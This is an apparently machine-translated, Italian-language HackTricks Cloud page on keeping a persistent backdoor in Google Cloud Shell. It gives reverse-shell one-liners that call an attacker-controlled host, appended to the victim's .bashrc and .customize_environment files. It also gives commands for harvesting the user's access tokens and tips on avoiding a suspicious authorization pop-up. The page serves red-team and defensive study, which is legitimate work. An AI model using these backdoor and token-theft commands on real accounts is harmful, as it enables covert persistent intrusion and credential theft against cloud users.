 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Per ulteriori informazioni controlla:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Backdoor Persistente

[**Google Cloud Shell**](https://cloud.google.com/shell/) ti fornisce accesso alla riga di comando alle tue risorse cloud direttamente dal tuo browser senza alcun costo associato.

Puoi accedere al Cloud Shell di Google dalla **console web** o eseguendo **`gcloud cloud-shell ssh`**.

Questa console ha alcune capacità interessanti per gli attaccanti:

1. **Qualsiasi utente Google con accesso a Google Cloud** ha accesso a un'istanza di Cloud Shell completamente autenticata (anche gli Account di Servizio, essendo Proprietari dell'organizzazione).
2. Detto istanza **mantenere la sua home directory per almeno 120 giorni** se non si verifica alcuna attività.
3. Non ci sono **capacità per un'organizzazione di monitorare** l'attività di quell'istanza.

Questo significa fondamentalmente che un attaccante può mettere una backdoor nella home directory dell'utente e finché l'utente si connette al GC Shell almeno ogni 120 giorni, la backdoor sopravvivrà e l'attaccante otterrà una shell ogni volta che viene eseguita semplicemente facendo:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

C'è un altro file nella cartella home chiamato **`.customize_environment`** che, se esiste, verrà **eseguito ogni volta** che l'utente accede al **cloud shell** (come nella tecnica precedente). Basta inserire il backdoor precedente o uno simile al seguente per mantenere la persistenza finché l'utente utilizza "frequentemente" il cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
È importante notare che la **prima volta che viene eseguita un'azione che richiede autenticazione**, appare una finestra di autorizzazione pop-up nel browser dell'utente. Questa finestra deve essere accettata prima che il comando possa essere eseguito. Se appare un pop-up inaspettato, potrebbe suscitare sospetti e compromettere potenzialmente il metodo di persistenza utilizzato.
{% endhint %}

Questo è il pop-up dall'esecuzione di `gcloud projects list` dalla cloud shell (come attaccante) visualizzato nella sessione utente del browser:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Tuttavia, se l'utente ha utilizzato attivamente la cloudshell, il pop-up non apparirà e puoi **raccogliere i token dell'utente con**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Come viene stabilita la connessione SSH

Fondamentalmente, vengono utilizzate queste 3 chiamate API:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (ti farà aggiungere la tua chiave pubblica che hai creato localmente)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (ti farà avviare l'istanza)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (ti dirà l'ip del google cloud shell)

Ma puoi trovare ulteriori informazioni in [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Riferimenti

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
